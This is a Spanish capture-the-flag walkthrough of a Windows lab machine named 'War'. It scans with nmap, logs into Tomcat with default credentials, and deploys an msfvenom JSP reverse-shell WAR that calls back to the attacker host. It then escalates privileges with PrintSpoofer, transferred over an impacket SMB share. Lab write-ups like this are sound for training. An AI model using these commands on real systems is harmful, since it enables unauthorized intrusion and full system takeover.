 ```yaml
---
description: '🔍 Dificultad: Fácil'
---
```


# War

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.74
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1135).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.74 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1136).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139, 445, 5040, 8080** y varios en el rango **49664-49670** están abiertos. Estos pertenecen a los servicios de **Microsoft RPC, NetBIOS-SSN, Microsoft-DS, HTTP-Proxy** y otros puertos desconocidos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080,135,139,445,5040 -v 192.168.1.74
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1138).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 8080 y encontramos un **Tomcat**.

<figure><img src="../../.gitbook/assets/image (1137).png" alt=""><figcaption></figcaption></figure>



Nos logueamos con las credenciales por defecto de Tomcat.&#x20;

* admin:tomcat

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html" %}

### 🚀 **EXPLOTACIÓN**

<figure><img src="../../.gitbook/assets/image (1139).png" alt=""><figcaption></figcaption></figure>

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.65 LPORT=443 -f war -o reverse2.war
```

Lo subimos y nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (1140).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (1141).png" alt=""><figcaption></figcaption></figure>

La cuenta **NT AUTHORITY\Local Service** posee el privilegio **SeImpersonatePrivilege**, lo que le permite suplantar la identidad de otros procesos en el sistema. Este privilegio es potencialmente explotable en ataques como **Juicy Potato** o **PrintSpoofer**, que permiten la escalación de privilegios en entornos Windows mal configurados. Se recomienda evaluar los riesgos y aplicar las medidas de seguridad adecuadas para mitigar posibles vulnerabilidades.

<figure><img src="../../.gitbook/assets/image (1142).png" alt=""><figcaption></figcaption></figure>

{% @github-files/github-code-block url="https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0" %}

Transfiero el ejecutable **PrintSpoofer64.exe** al sistema objetivo

```bash
mv /home/beafn28/Descargas/PrintSpoofer64.exe .
impacket-smbserver a . -smb2support
```

Lo subimos.

```bash
cd %TEMP%
copy \\192.168.1.65\a\PrintSpoofer64.exe PrintSpoofer64.exe
```

Ejecutamos. Ya somos **root**.

```
.\PrintSpoofer64.exe -i -c cmd
```

<figure><img src="../../.gitbook/assets/image (1144).png" alt=""><figcaption></figcaption></figure>
